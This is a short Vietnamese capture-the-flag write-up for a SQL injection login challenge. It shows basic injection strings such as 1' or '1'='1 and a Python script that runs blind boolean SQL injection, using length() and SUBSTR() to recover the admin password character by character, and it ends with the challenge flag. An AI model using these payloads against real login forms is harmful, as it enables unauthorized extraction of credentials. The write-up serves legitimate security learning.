 # Bài 1:
- Ta thử test 1 số input sql injection cơ bản: 
	1' or '1' = '1
	password" OR "1"="1 ...
Sau đó ta phát hiện rằng website dính sql injection, và trả về cho ta hướng dẫn lấy flag là mk của user admin
Ta thấy mã nguồn php mà web trả về có vẻ không dính lỗi nào khác ngoài lỗi sql injection mà ta có thể khai thác được
nên ta sẽ dùng brute force để check mk của user thông qua lỗ hổng này
ta dùng đoạn code python sau
    ```python
    import requests

    for x in range(1, 30):
        url = 'http://ctfq.sweetduet.info:10080/~q6/'
        temp = '1\' or length(user.pass) = ' + str(x) + ' or \'1\' = \'12'
        data = {'id': 'admin', 'pass': temp}
        response = requests.post(url, data=data)
        print str(x) + str(response.content.splitlines()[8] == "      Congratulations!<br>")

    dataAl = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

    for x in range(1, 22):
        for letter in dataAl:
            url = 'http://ctfq.sweetduet.info:10080/~q6/'
            temp = '1\' or SUBSTR(user.pass, ' + str(x) + ', 1) = \'' + letter + '\' or \'1\' = \'12'
            # print temp
            data = {'id': 'admin', 'pass': temp}
            response = requests.post(url, data=data)
            if response.content.splitlines()[8] == "      Congratulations!<br>":
                print letter,
    ```
Đoạn code trên gồm 2 phần. phần đầu để check xem mk của user có bn kí tự và đoạn sau để cắt từng char của mk ra để check
ta được flag là FLAG_KpWa4ji3uZk6TrPK -> check lại tại trang login -> ok
